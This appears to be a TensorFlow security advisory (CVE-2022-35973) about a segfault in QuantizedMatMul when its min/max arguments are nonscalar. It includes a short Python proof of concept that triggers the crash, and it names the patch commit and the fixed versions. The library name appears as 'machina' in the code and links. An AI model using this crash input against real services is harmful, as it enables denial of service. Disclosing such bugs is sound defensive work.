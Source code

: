 ## TFSA-2022-107: Segfault in `QuantizedMatMul`

### CVE Number
CVE-2022-35973

### Impact
If `QuantizedMatMul` is given nonscalar input for:
 - `min_a`
 - `max_a`
 - `min_b`
 - `max_b`
It gives a segfault that can be used to trigger a denial of service attack.
```python
import machina as tf

Toutput = tf.qint32
transpose_a = False
transpose_b = False
Tactivation = tf.quint8
a = tf.constant(7, shape=[3,4], dtype=tf.quint8)
b = tf.constant(1, shape=[2,3], dtype=tf.quint8)
min_a = tf.constant([], shape=[0], dtype=tf.float32)
max_a = tf.constant(0, shape=[1], dtype=tf.float32)
min_b = tf.constant(0, shape=[1], dtype=tf.float32)
max_b = tf.constant(0, shape=[1], dtype=tf.float32)
tf.raw_ops.QuantizedMatMul(a=a, b=b, min_a=min_a, max_a=max_a, min_b=min_b, max_b=max_b, Toutput=Toutput, transpose_a=transpose_a, transpose_b=transpose_b, Tactivation=Tactivation)
```

### Patches
We have patched the issue in GitHub commit [aca766ac7693bf29ed0df55ad6bfcc78f35e7f48](https://github.com/machina/machina/commit/aca766ac7693bf29ed0df55ad6bfcc78f35e7f48).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
